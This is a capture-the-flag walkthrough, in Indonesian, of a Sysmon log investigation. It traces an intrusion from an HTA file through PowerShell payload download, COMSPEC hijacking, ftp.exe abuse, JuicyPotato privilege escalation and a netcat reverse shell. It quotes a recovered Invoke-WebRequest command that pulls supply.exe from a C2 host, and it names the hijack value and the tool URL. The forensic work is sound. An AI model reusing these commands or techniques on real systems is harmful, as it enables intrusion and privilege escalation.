# Log Analysis - Sysmon — BTLO

> **Platform:** Blue Team Labs Online (BTLO)  
> **Category:** Log Analysis / Threat Hunting  
> **Difficulty:** Medium  
> **Status:** ✅ Completed  
> **Date:** 2026-05-31  
> **Time Spent:** ~3 jam  

---

## 📌 Prolog

Challenge ini menyediakan Sysmon logs dari endpoint yang sudah dikompromis. Tugasnya straightforward: analisis log, ikuti jejaknya, temukan teknik yang dipakai attacker dari awal masuk sampai reverse shell. Tools tersedia: Text Editor, PowerShell, Linux CLI.

---

## 🎯 Scenario

Kamu diberikan Sysmon logs dari sebuah endpoint yang telah dikompromis. Analisis log tersebut untuk menemukan langkah-langkah dan teknik yang digunakan attacker.

---

## 🔧 Initial Preparation

Sebelum mulai mengerjakan soal, ada beberapa langkah awal untuk memudahkan proses query dan analisis log.

### Extract & Clean File

File dari BTLO berupa ZIP yang berisi satu file: `sysmon-events.json`. Setelah di-extract, struktur JSON-nya belum rapi untuk di-query langsung dengan `jq`, jadi di-clean dulu dan disimpan sebagai `sysmon-events-clean.json`.





### Install jq

```bash
brew install jq
```

### Cek Event ID yang Ada

Langkah pertama sebelum analisis: tahu event ID apa saja yang ada di file log.



Dari semua event ID yang ada, fokus ke event ID yang paling relevan untuk digital forensic:

| EventID | Nama | Keterangan |
|---------|------|------------|
| **1** | Process Creation | Log setiap proses baru yang dijalankan — berisi command line, parent process, hash |
| **3** | Network Connection | Log koneksi TCP/UDP yang dibuat oleh proses — berisi src/dst IP dan port |
| **5** | Process Terminated | Log proses yang berakhir — berguna untuk korelasi timeline |
| **11** | FileCreate | Log pembuatan atau overwrite file — berisi path lengkap file yang di-drop |
| **15** | FileCreateStreamHash | Log pembuatan Alternate Data Stream (ADS) — sering muncul saat file didownload dari internet (Zone.Identifier) |
| **22** | DNS Query | Log DNS query yang dilakukan proses — sangat berguna untuk melihat domain/C2 yang dikunjungi |

Masing-masing event ID dipisahkan ke file tersendiri untuk memudahkan analisis:










---

## ❓ Questions

1. What is the file that gave access to the attacker?
2. What is the powershell cmdlet used to download the malware file and what is the port?
3. What is the name of the environment variable set by the attacker?
4. What is the process used as a LOLBIN to execute malicious commands?
5. Malware executed multiple same commands at a time, what is the first command executed?
6. Looking at the dependency events around the malware, can you able to figure out the language the malware is written in?
7. Malware then downloads a new file, find out the full URL of the file download.
8. What is the port the attacker attempts to get reverse shell?

---

## 🔍 Answer & Walkthrough

### 1. What is the file that gave access to the attacker?

Dari EventID 1 (Process Creation), terlihat ada file dengan ekstensi `.hta` yang dieksekusi bukan oleh browser, melainkan oleh `mshta.exe` — Windows binary legitimate yang memang dipakai untuk menjalankan HTML Application.



Ini langsung jadi red flag. `.hta` (HTML Application) yang dijalankan via `mshta.exe` bukan dari browser adalah pola klasik abuse of legitimate binary yang masuk ke MITRE ATT&CK **T1218.005 — Signed Binary Proxy Execution: Mshta**.

Dari EventID 22 (DNS Query), bisa dilihat konteks yang lebih lengkap. Tepat sebelum `updater.hta` dieksekusi (sekitar jam 12:19), ada DNS query ke `wpad` — Web Proxy Auto-Discovery Protocol. Ini bisa jadi indikator adanya upaya proxy interception di jaringan, atau artifact dari network configuration korban.



Yang lebih menarik, ada juga DNS query ke Outlook dengan return status `9003` (`DNS_INFO_NO_RECORDS` — query berhasil dibuat tapi tidak ada record yang ditemukan). Perlu dicatat: ini bukan "koneksi gagal" secara harfiah, tapi berarti domain tidak resolve ke resource apapun. Ini bisa jadi sisa jejak dari spearphishing email: korban menerima email yang mencoba resolve ke endpoint Outlook tertentu — mungkin untuk redirect ke file `updater.hta`.



Kombinasi bukti ini mengarah ke **T1566.001 (Spearphishing Attachment)** — file HTA kemungkinan dikirim sebagai attachment email — dan/atau **T1566.002 (Spearphishing Link)** — korban diarahkan ke link untuk mendownload file tersebut.

**Jawaban:** `updater.hta`

---

### 2. What is the powershell cmdlet used to download the malware file and what is the port?

Setelah `updater.hta` dieksekusi oleh `mshta.exe`, malware mulai menjalankan PowerShell script yang ter-obfuscate. Ada dua tahap decoding yang terjadi:

**Proses 1 — Decode Base64 pertama:**



**Proses 2 — Hasil decode proses 1 di-decode lagi (Base64+Gzip), lalu dieksekusi:**



Setelah dua kali decoding (teknik **Base64 + Gzip double encoding**), perintah akhir yang dijalankan adalah `Invoke-WebRequest` (alias `iwr`) untuk mengunduh `supply.exe` dari C2:

```powershell
Invoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\Windows\Temp\supply.exe
```



File disimpan ke `C:\Windows\Temp` — direktori writable yang tidak butuh elevated privilege, pilihan klasik malware untuk menyimpan payload.

Teknik yang dipakai: **T1105 (Ingress Tool Transfer)**, **T1059.001 (PowerShell)**, dan **T1027.010 (Command Obfuscation)** untuk double-encoded payload-nya.

**Jawaban:** `Invoke-WebRequest`, port `6969`

---

### 3. What is the name of the environment variable set by the attacker?

Setelah `supply.exe` berhasil didownload, malware mengubah environment variable `COMSPEC` untuk mengarah ke path malware:



`COMSPEC` secara default menunjuk ke `C:\Windows\System32\cmd.exe` — binary yang sering dipanggil oleh sistem dan aplikasi lain untuk eksekusi command. Dengan menggantinya ke path `supply.exe`, setiap kali ada proses yang invoke command interpreter via environment variable ini, yang akan dijalankan adalah malware — bukan `cmd.exe`. Ini adalah teknik **execution hijacking** yang subtle karena memanfaatkan mekanisme normal Windows.

Teknik: **T1574 — Hijack Execution Flow** via environment variable hijacking untuk memastikan malware tetap tereksekusi dalam konteks proses lain.

**Jawaban:** `comspec=C:\windows\temp\supply.exe`

---

### 4. What is the process used as a LOLBIN to execute malicious commands?

Dari EventID 1, terlihat `ftp.exe` digunakan sebanyak 4 kali oleh malware. `ftp.exe` adalah binary bawaan Windows yang terdaftar di [LOLBAS Project](https://lolbas-project.github.io/lolbas/Binaries/Ftp/) sebagai binary yang bisa disalahgunakan untuk eksekusi arbitrary command dan transfer data tanpa perlu download tool tambahan.



Dari EventID 3 (Network Connection), terlihat jelas koneksi dari `ftp.exe` menuju IP C2 yang sama (`192.168.1.11`) via port `8080` dengan protocol TCP:



Penggunaan `ftp.exe` sebagai LOLBIN masuk ke **T1218 (System Binary Proxy Execution)** — menggunakan binary legitimate Windows untuk evade deteksi. Aktivitas koneksi ke C2 via ftp.exe juga masuk ke **T1048 (Exfiltration Over Alternative Protocol)** untuk aspek data exfiltration-nya.

**Jawaban:** `ftp.exe`

---

### 5. Malware executed multiple same commands at a time, what is the first command executed?

Setelah initial access berhasil, malware masuk ke fase discovery. Dari log terlihat beberapa command dieksekusi secara bersamaan dalam multiple instances:



Command yang dieksekusi: `ipconfig`, `whoami`, dan `whoami /priv`. Command pertama yang muncul adalah `ipconfig` untuk memetakan network configuration korban.

Ini pola post-exploitation yang sangat umum:
- `ipconfig` → **T1016 (System Network Configuration Discovery)**
- `whoami` → **T1033 (System Owner/User Discovery)**
- `whoami /priv` → **T1069 (Permission Groups Discovery)** — untuk cek privilege yang dimiliki, khususnya apakah ada `SeImpersonatePrivilege` yang bisa dieksploitasi

**Jawaban:** `ipconfig`

---

### 6. Looking at the dependency events around the malware, can you able to figure out the language the malware is written in?

Dari EventID 11 (FileCreate), ditemukan bahwa `supply.exe` men-drop file DLL bernama `msvcm90.dll` ke file system:



`msvcm90.dll` adalah bagian dari **Microsoft Visual C++ 9.0 Runtime** — dan ini adalah fingerprint klasik dari binary yang di-compile menggunakan **PyInstaller** dengan Python 2.x. Cara kerjanya: saat PyInstaller mem-bundle script Python menjadi `.exe`, ia akan mengekstrak runtime dependencies ke direktori temp ketika pertama kali dijalankan. Salah satu DLL khasnya adalah `msvcm90.dll` (dan biasanya `msvcr90.dll`). Kehadiran file ini di EventID 11 menandakan `supply.exe` merupakan **Python binary yang di-pack dengan PyInstaller**.

> ⚠️ **Catatan:** Temuan ini didapat dari query langsung ke file EventID 11, bukan dari hasil merge semua event. Saat proses merge, sepertinya ada typo yang menyebabkan entry ini tidak ter-include. Jadi analisis ini didasarkan dari query file EventID 11 secara terpisah.

**Jawaban:** `Python`

---

### 7. Malware then downloads a new file, find out the full URL of the file download.

Setelah fase discovery, malware mengunduh tool tambahan untuk privilege escalation:



Yang didownload adalah `JuicyPotato.exe` — tool privilege escalation yang mengeksploitasi **COM object impersonation** di Windows. JuicyPotato memanfaatkan token `SeImpersonatePrivilege` atau `SeAssignPrimaryTokenPrivilege` (yang sudah dicek sebelumnya via `whoami /priv`) untuk mendapatkan SYSTEM privilege dari akun low-privilege.

Teknik: **T1068 (Exploitation for Privilege Escalation)** dan **T1134.001 (Access Token Manipulation: Token Impersonation/Theft)** — karena JuicyPotato secara spesifik mengeksploitasi Windows token impersonation mechanism.

**Jawaban:** `https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`

---

### 8. What is the port the attacker attempts to get reverse shell?

Dari EventID 11, terlihat ada file `nc.exe` (Netcat) yang di-drop ke file system oleh malware, kemudian digunakan untuk membangun reverse shell kembali ke C2:



Netcat (`nc.exe`) adalah networking tool klasik yang sering dipakai untuk reverse shell karena fleksibilitasnya. Koneksi diarahkan ke C2 di port `9898`. Ini adalah tahap akhir dari kill chain — attacker sudah dapat shell interaktif ke sistem korban dengan privilege yang sudah di-escalate via JuicyPotato.

Teknik: **T1059 (Command and Scripting Interpreter)** untuk eksekusi command via shell, **T1071 (Application Layer Protocol)** untuk C2 communication.

**Jawaban:** `9898`

---

## 🚨 Key Findings / IOCs

| Tipe | Value | Keterangan |
|------|-------|------------|
| File (Initial Access) | `updater.hta` | File HTA yang memberikan akses awal ke attacker |
